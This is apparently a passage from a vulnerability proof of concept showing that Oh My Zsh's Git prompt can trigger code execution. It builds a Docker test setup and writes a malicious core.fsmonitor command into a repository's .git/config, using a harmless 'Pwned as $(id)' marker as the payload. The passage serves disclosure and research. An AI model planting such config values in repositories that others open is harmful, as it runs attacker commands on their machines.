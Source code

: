 Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/oh-my-zsh zsh

➜  / omz update
Updating Oh My Zsh
From https://github.com/ohmyzsh/ohmyzsh
 * branch            master     -> FETCH_HEAD
Current branch master is up to date.
         __                                     __
  ____  / /_     ____ ___  __  __   ____  _____/ /_
 / __ \/ __ \   / __ `__ \/ / / /  /_  / / ___/ __ \
/ /_/ / / / /  / / / / / / /_/ /    / /_(__  ) / / /
\____/_/ /_/  /_/ /_/ /_/\__, /    /___/____/_/ /_/
                        /____/

Oh My Zsh is already at the latest version.
To keep up with the latest news and updates, follow us on Twitter: https://twitter.com/ohmyzsh
Want to get involved in the community? Join our Discord: https://discord.gg/ohmyzsh
Get your Oh My Zsh swag at: https://shop.planetargon.com/collections/oh-my-zsh

➜  / git -C ~/.oh-my-zsh log -n1 | cat
commit d9ad99531f74df8b0d6622feeab5e253528b43d0
Author: Žiga Šebenik <sebenik@users.noreply.github.com>
Date:   Fri Jul 23 12:39:51 2021 +0200

    feat(plugins): add fnm plugin (#9864)
    
    Co-authored-by: Ziga Sebenik <ziga.sebenik@oryxgaming.com>
```

Create an empty Git repo:

```plain
➜  / cd $(mktemp -d)

➜  tmp.ZfzZ5FG196 mkdir poc

➜  tmp.ZfzZ5FG196 git -C poc init
Initialized empty Git repository in /tmp/tmp.ZfzZ5FG196/poc/.git/

➜  tmp.ZfzZ5FG196
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
➜  tmp.ZfzZ5FG196 echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

➜  tmp.ZfzZ5FG196 cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```
